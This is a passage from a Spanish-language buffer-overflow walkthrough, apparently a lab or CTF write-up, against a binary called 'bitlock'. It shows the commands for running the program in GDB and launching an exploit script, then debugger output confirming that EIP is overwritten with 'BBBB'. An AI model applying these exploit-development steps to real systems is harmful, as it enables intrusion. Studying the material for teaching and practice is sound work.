 Antes, tendremos que hacer lo siguiente en `GDB` para iniciar la aplicacion:

> gdb (pwndbg)

```shell
run
```

Y ahora en el `host` ejecutaremos el script:

> host

```shell
python3 step2.py
```

**Resultado esperado en GDB:** El registro `EIP` ahora debería estar sobrescrito con `0x42424242` (`BBBB`).

Por lo que veremos lo siguiente en el `GDB`:

```
Starting program: /home/kali/Desktop/spain/bitlock 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Esperando conexiones en el puerto 9000...
************************
* AAAAAAAAAAAAAAAAAAAAAABBBB
0 *
************************

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────
 EAX  0xffffce26 ◂— 'AAAAAAAAAAAAAAAAAAAAAABBBB\r\n0'
 EBX  0x41414141 ('AAAA')
 ECX  0xffffce70 ◂— 'AABBBB\r\n0'
 EDX  0xffffce3a ◂— 'AABBBB\r\n0'
 EDI  0xffffd25c ◂— 0x10
 ESI  0xffffd36c —▸ 0xffffd51b ◂— 'COLORTERM=truecolor'
 EBP  0x41414141 ('AAAA')
 ESP  0xffffce40 ◂— 0x300a0d /* '\r\n0' */
 EIP  0x42424242 ('BBBB')
─────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]──────────────────────────────────────────────────────────────
Invalid address 0x42424242










──────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────
00:0000│ esp 0xffffce40 ◂— 0x300a0d /* '\r\n0' */
01:0004│     0xffffce44 —▸ 0xffffce5c ◂— 'AAAAAAAAAAAAAAAAAAAAAABBBB\r\n0'
02:0008│     0xffffce48 ◂— 0x400
03:000c│     0xffffce4c —▸ 0x80492ad (main+27) ◂— add ebx, 0x2d47
04:0010│     0xffffce50 —▸ 0xf7ffda20 ◂— 0
05:0014│     0xffffce54 ◂— 0
06:0018│     0xffffce58 —▸ 0xf7fc6178 ◂— mov byte ptr [eax], al
07:001c│     0xffffce5c ◂— 'AAAAAAAAAAAAAAAAAAAAAABBBB\r\n0'
```